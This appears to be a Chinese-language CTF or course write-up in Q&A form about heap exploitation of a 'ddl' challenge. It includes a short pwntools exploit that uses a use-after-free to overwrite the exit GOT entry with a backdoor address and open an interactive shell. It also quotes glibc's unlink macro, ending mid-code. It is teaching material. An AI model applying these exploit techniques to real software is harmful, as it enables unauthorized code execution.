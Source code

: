 > UAF中为什么需要free两个块然后再用B的fd呢？只free一个然后用A的fd不行🐴？

可以，修改后的代码为：

```python
add_ddl_conn()
finish_ddl_conn(1)
edit_ddl_conn(1, p64(got_exit))
add_ddl_conn()
add_ddl_conn(p64(addr_backdoor))
exit_ddl_conn()
conn.interactive()
```

但是最后仍得add两个ddl，因为第一个用的是free掉的，第二个才能起到overwrite GOT表的作用。

不过[附录](#exploit/uaf.py)中的还是按wiki来写的版本，问题不大。



> 不借助backdoor函数而用ROP的思路来到底是否能exploit？（感觉现实中这种backdoor显然是不可能存在的）

感觉难度有亿点大，因为array是在堆上的，要调用system("/bin/sh")必然得把"/bin/sh"放到栈上，要么就overwrite超长距离一直到栈上，但是题目又有1024的输入长度限制，所以应该是不可行的。

### Unsafe-Unlink

> 按照wiki中说的设计payload为何还是不能让finish 2nd ddl正常结束？

重新reference to源码：

```c
#define NBINS 128
#define NSMALLBINS 64
#define SMALLBIN_WIDTH MALLOC_ALIGNMENT                                       // 16
#define SMALLBIN_CORRECTION (MALLOC_ALIGNMENT > 2 * SIZE_SZ)                  // 16 > 16 = 0
#define MIN_LARGE_SIZE ((NSMALLBINS - SMALLBIN_CORRECTION) * SMALLBIN_WIDTH)  // 1024 = 0x400

#define in_smallbin_range(sz) ((unsigned long)(sz) < (unsigned long)MIN_LARGE_SIZE)

#define unlink(AV, P, BK, FD)                                                    \
    {                                                                            \
        if (__builtin_expect(chunksize(P) != prev_size(next_chunk(P)), 0))       \
            malloc_printerr("corrupted size vs. prev_size");                     \
        FD = P->fd;                                                              \
        BK = P->bk;                                                              \
        if (__builtin_expect(FD->bk != P || BK->fd != P, 0))                     \
            malloc_printerr("corrupted double-linked list");                     \
        else {                                                                   \
            FD->bk = BK;                                                         \
            BK->fd = FD;                                                         \
            if (in_smallbin_range(chunksize_nomask(P)) &&                        \
                __builtin_expect(P->fd_nextsize != NULL, 0)) {                   \
                if (__builtin_expect(P->fd_nextsize->bk_nextsize != P, 0) ||     \
                    __builtin_expect(P->bk_nextsize->fd_nextsize != P, 0))       \
                    malloc_printerr("corrupted double-linked list (not small)"); \
                if (FD->fd_nextsize == NULL) {                                   \
                    if (P->fd_nextsize == P)                                     \
                        FD->fd_nextsize = FD->bk_nextsize = FD;                  \
                    else {                                                       \
                        FD->fd_nextsize             = P->fd_nextsize;            \
                        FD->bk_nextsize             = P->bk_nextsize;            \
                        P->fd_nextsize->bk_nextsize = FD;                        \
                        P->bk_nextsize->fd_nextsize = FD;                        \
                    }                                                            \
                } else {                                                         \
                    P->fd_nextsize->bk_nextsize = P->bk_nextsize;                \
                    P->bk_nextsize->fd_nextsize = P->fd_nextsize;                \
                }                                                                \
```